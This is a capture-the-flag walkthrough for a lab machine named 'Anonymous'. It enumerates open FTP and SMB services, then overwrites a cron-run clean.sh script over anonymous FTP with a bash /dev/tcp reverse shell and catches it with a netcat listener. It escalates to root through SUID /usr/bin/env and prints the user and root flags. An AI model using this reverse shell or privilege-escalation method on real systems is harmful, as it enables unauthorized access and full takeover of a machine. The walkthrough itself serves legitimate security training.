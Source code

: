 ```yaml
---
sticker: emoji//1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 139  | smb     |
| 445  | smb     |

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.34.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-04-01T18:15:57+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time:
|   date: 2025-04-01T18:15:57
|_  start_date: N/A
```

# RECONNAISSANCE
---


We got FTP and SMB enabled on the machine, also, we got anonymous login enabled in FTP at first sight thanks to the scan, this may be enabled on smb too, let's check out FTP first:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401131807.png)

We got a `scripts` directory, let's check it contents:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401132437.png)

We got some scripts in it, let's look at them:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401132655.png)



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401132708.png)



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401132719.png)


That `clean.sh` script seems interesting, let's keep it like that for now. We can proceed to analyze `SMB`, since the anonymous login may be enabled, we can view the contents of the shares:

```
smbclient -L \\\\10.10.235.71\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Let's check that `pics` share:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401133112.png)

Both files are not interesting, if we try extracting the contents with `steghide`, we'll need a passphrase so, they're not useful, let's proceed with exploitation then.




# EXPLOITATION
---


We already know that the FTP protocol has got a script called `clean.sh`, interesting part about the script is that:

- The script checks `if [ $tmp_files=0 ]` (missing space around =). While syntactically incorrect, this is treated as a string comparison. However, the script is likely **triggered by a cron job** (since `removed_files.log` has many entries).

If we can modify the contents of `clean.sh`, we can upload a reverse shell and gain access to the machine, let's test this by doing the following:


1. Create a new `malicious_clean.sh` script with the following contents to trigger a reverse shell:

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

2. Replace the script with our malicious one:

```
ftp IP # Login with anonymous login
cd scripts
put malicious_clean.sh clean.sh
```

3. Set up the listener and wait for the connection:

```
nc -lvnp PORT
```


If we reproduce these steps, we can see the following in our listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401133901.png)

We got a shell as `namelessone`, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step would be stabilizing our shell to move around the machine in a more comfortable way:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401134051.png)

We can read `user.txt` now:

```
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```

Now, in order to get root, we can use linpeas to check for any privesc vector:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401134406.png)

For example, we are inside of the `sudo` group but since we do not know the password of `namelessone`, this is pretty much useless for now, if we keep looking at `linpeas` output, we can check this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401134512.png)

We got `SUID` for `/usr/bin/env`, let's check `gtfobins`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401134540.png)

So, we can do the following in order to get a root shell:

```
/usr/bin/env /bin/bash -p
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401134615.png)

There we go, we can finally read `root.txt` and end the challenge:

```
bash-4.4# cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250401134709.png)



